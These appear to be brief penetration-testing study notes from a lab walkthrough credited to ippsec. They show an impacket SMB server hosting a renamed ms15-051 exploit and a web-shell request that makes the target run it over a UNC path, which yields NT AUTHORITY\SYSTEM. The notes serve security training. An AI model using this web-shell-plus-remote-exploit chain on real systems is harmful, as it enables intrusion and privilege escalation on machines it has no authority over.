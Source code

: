 Windows update log:

    C:\Windows>type WindowsUpdate.log

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557227956319_image.png)

*will tell you when its installing patches.*

Executing files off UNC shares - OSCP lateral movement (firewalls would generally prevent this )
(Simliar HTTPServer but for Samba)
Kali has a built in `impacket-smbserver` which then you give it a share name and a directory you would want to share out:

    impacket-smbserver ippsec `pwd`

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557228203847_image.png)

rename `ms15-051x64.exe` to `privesc.exe`

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557228273422_image.png)

target connect to smb server

    10.10.10.9/ippsec.php?fexec=\\10.10.15.1\ippsec\privesc.exe whoami

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557228693724_image.png)

impacket see’s the incoming connection:

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557228797119_image.png)

*verifies that the target indeed interacted with the server.*

Browser returns: NT AUTHORITY\SYSTEM

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557228855662_image.png)

#HAILippsec


----------

If you don’t know who ippsec is check him out at:

Youtube: https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA 

Twitter: https://twitter.com/ippsec
